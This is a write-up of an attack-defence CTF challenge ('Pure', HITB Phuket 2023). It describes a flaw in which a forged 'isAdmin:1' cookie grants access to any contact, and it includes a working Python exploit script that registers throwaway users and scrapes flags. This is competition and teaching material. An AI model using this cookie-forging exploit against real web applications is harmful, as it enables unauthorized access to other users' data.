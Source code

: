 ```yaml
---
layout: post
title: HITB Phuket 2023
author: Protag
categories: [Attack-Defence]
tags: [ctf,attack-defence]
---
```

# Pure Challenge Writeup

The official writeup from the organizers is available [here](https://writeups.ctf.hitb.org/h138CtF2O23/pure/). 
I'm going to let that cover the technical details of the vulnerability as in this writeup I want to focus on the development of the exploit.

Initially we got the payload from analysing [Tulip](https://github.com/OpenAttackDefenseTools/tulip) logs. We noticed someone with the cookie `settings=isAdmin:1` could read any contact on the platform. The contact ids for the flags are given to us by the A/D API.
Another notable thing about this challenge is that attackers are able to delete the contact/flag. This means that only the first attacker (and others if they are lucky) will get the points so speed is a necessity for this exploit script to be successful.

Here is the first iteration of the exploit:
```python
#!/usr/bin/python3
import os
import requests
import re
import string
import random
import json

host = os.getenv("TARGET_IP")
flag_ids = json.loads(os.getenv("TARGET_EXTRA", "{}"))

def gen_rand():
    return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(20))

for flag_id in flag_ids:
    s = requests.Session()

    data = {
        "username": gen_rand(),
        "password": gen_rand()
    }

    try:
        r = s.post(f"https://{host}/register", data=data)
        s.cookies.set("settings", "isAdmin:1", domain=host)
        r = s.get(f"https://{host}/edit/{flag_id}")
        flag = re.findall(r"TEAM\d{3}_[A-Z0-9]{32}", r.text)[0]
        print(flag)

    except:
        pass
```
We used [ataka](https://github.com/OpenAttackDefenseTools/ataka) during this CTF to manage our exploits. This gives the target and target info to our script as env variables and automates the repeated running of the exploit across the different targets. Ataka ingests the flags and submits them by using a regex on the script output.
